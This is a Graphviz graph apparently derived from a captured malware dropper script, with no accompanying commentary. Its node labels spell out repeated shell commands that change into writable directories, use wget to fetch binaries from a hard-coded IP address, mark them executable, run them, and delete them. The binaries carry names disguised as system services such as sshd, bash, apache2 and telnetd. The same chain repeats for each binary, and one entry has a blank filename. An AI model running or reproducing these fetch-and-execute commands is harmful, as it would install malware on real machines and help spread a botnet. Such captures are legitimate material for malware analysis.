 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://94.177.207.247/nantpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x nantpd "];
12 -> 14 [label=";,"];
14 [label="./nantpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf nantpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://94.177.207.247/nasshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x nasshd "];
30 -> 32 [label=";,"];
32 [label="./nasshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf nasshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://94.177.207.247/naopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x naopenssh "];
48 -> 50 [label=";,"];
50 [label="./naopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf naopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://94.177.207.247/nabash "];
64 -> 66 [label=";,"];
66 [label="chmod +x nabash "];
66 -> 68 [label=";,"];
68 [label="./nabash "];
68 -> 70 [label=";,"];
70 [label="rm -rf nabash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://94.177.207.247/natftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x natftp "];
84 -> 86 [label=";,"];
86 [label="./natftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf natftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://94.177.207.247/nawget "];
100 -> 102 [label=";,"];
102 [label="chmod +x nawget "];
102 -> 104 [label=";,"];
104 [label="./nawget "];
104 -> 106 [label=";,"];
106 [label="rm -rf nawget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://94.177.207.247/nacron "];
118 -> 120 [label=";,"];
120 [label="chmod +x nacron "];
120 -> 122 [label=";,"];
122 [label="./nacron "];
122 -> 124 [label=";,"];
124 [label="rm -rf nacron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://94.177.207.247/naftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x naftp "];
138 -> 140 [label=";,"];
140 [label="./naftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf naftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://94.177.207.247/napftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x napftp "];
156 -> 158 [label=";,"];
158 [label="./napftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf napftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://94.177.207.247/nash "];
172 -> 174 [label=";,"];
174 [label="chmod +x nash "];
174 -> 176 [label=";,"];
176 [label="./nash "];
176 -> 178 [label=";,"];
178 [label="rm -rf nash "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://94.177.207.247/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://94.177.207.247/naapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x naapache2 "];
210 -> 212 [label=";,"];
212 [label="./naapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf naapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://94.177.207.247/natelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x natelnetd "];
228 -> 230 [label=";,"];
230 [label="./natelnetd "];
230 -> 231 [label=";,"];
}
